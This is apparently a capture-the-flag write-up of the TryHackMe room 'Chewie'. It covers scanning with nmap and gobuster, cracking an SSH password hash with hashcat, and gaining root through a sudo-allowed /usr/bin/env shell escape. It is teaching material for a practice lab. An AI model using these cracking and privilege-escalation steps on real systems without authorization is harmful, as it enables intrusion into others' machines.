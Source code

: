 ```yaml
---
title: Chewie Writeup [TryHackMe]
published: true
---
```


# [](#header)Intro

This is actually my first ever VM i created and i hope it was an enjoyable machine for all of you to try :DD.

I design this room to be easy for beginners and more importantly i hope all of you enjoy.

Okay let's just get into hacking!!

<a href="https://tryhackme.com/room/chewie">
Link to the room
</a>

# [](#header)Enumeration

We start with nmap scan :

### nmap -sC -sV -oN nmap 192.168.100.11

- -sC : Equivalent to --script=default
- -sV : Probe open ports to determine service/version info
- -oN : Output scan in normal

```bash

SStarting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 09:41 WIB
Nmap scan report for 10.10.238.69
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:11:1e:54:86:a6:fc:76:3a:58:cf:34:95:1b:03:de (RSA)
|   256 a9:d0:aa:7f:9d:da:5c:1b:be:1f:03:ed:80:e6:1c:f9 (ECDSA)
|_  256 93:56:b3:e7:21:fa:32:f0:04:49:75:4f:61:0c:68:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Chewwie
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.34 seconds

```

We only have 2 ports open: 80 for Apache and 22 for SSH.

Visiting the webserver we get the following page:

![](../assets/images/chewie_thm/web_page.png)

We can try to do directory scan with gobuster and add txt extension:

### gobuster dir -u http://192.168.100.11/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt

- dir : Uses directory/file brutceforcing mode
- -w : Path to the wordlist
- -u : To specify the url

```bash

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.69/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/06/18 09:45:16 Starting gobuster
===============================================================
/images (Status: 301)
/notes.txt (Status: 200)
Progress: 5045 / 220561 (2.29%)
```

We found `notes.txt` and inside we found a username and password for ssh.

![](../assets/images/chewie_thm/note.png)

But the password was hashed and we have to crack it. There's a lot of ways of cracking password, but here i will use hashcat to crack the hash:

### hashcat -a 0 -m 1400 '5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0' /opt/wordlist/rockyou.txt

- -a : --attack-mode (0 for Straight mode)
- -m : --hash-type (1400 for sha256)

```bash
Dictionary cache hit:
* Filename..: /opt/wordlist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0:password101

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA2-256
Hash.Target......: 5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b...8ac4f0
Time.Started.....: Tue Jun 16 18:39:43 2020 (1 sec)
Time.Estimated...: Tue Jun 16 18:39:44 2020 (0 secs)
Guess.Base.......: File (/opt/wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    76479 H/s (3.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 20480/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: michael! -> 280789

Started: Tue Jun 16 18:39:01 2020
Stopped: Tue Jun 16 18:39:46 2020
```

A few minutes later the password was CRACKED!!

After that we can ssh to the machine with the user we found and the password we crack:

![](../assets/images/chewie_thm/ssh.png)

We can finally capture the user.txt in current directory:

![](../assets/images/chewie_thm/user.png)

For the root flag, first we can use the command `sudo -l` for listng user's privileges or check a specific command:

```bash
lia@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for lia on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lia may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: /usr/bin/env
```

We can run `/usr/bin/env` as sudo. We can abuse that command to gain privilege as root by typing
<br> `sudo /usr/bin/env /bin/sh` and that's it! We are root :

![](../assets/images/chewie_thm/esc_root.png)

We can finally capture the root.txt in /root directory:

![](../assets/images/chewie_thm/root.png)

And that's it! We root the machine. Hope you guys enjoy reading this writeup.
Thank You :DD
